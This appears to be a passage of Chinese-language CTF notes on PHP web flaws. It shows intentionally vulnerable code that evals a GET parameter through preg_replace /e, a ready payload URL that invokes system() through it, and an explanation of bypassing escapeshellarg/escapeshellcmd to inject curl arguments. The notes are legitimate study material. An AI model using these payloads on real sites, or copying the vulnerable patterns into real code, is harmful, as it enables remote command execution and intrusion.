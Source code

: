 ### 思路2：

转换为16进制字符串

## 3.执行指定的代码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
    @eval($_GET['cmd']);
}

```

只需要执行getflag（）函数，并且传入cmd参数

(url).../next.php?id=1&\S*={${getFlag()}}&cmd=system('linux命令');

正则表达式\S*表示匹配非空字符串

匹配到的是getFlag这个函数

然后传入cmd参数

## 4.escapeshellarg || escapeshellcmd

escapeshellarg 将字符串转码为可以在shell命令中使用的参数，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用

escapeshellcmd对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。

<font color=red>单引号绕过思路,可以在本地调试，思路就是加上单引号，与函数过滤后加上的单引号形成闭合</font>>

- 传入的参数是：172.17.0.2<font color=red>**'**</font> -v -d a=1
- 经过escapeshellarg处理后变成了<font color=pink>**'**</font>>172.17.0.2<font color=pink>**'**</font><font color=red>**\\'**</font><font color=blue>**'** </font>>-v -d a=1<font color=blue>**'**</font>>，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
- 经过escapeshellcmd处理后变成'172.17.0.2'\\\\'' -v -d a=1\'，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
- 最后执行的命令是curl '172.17.0.2'\\\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。

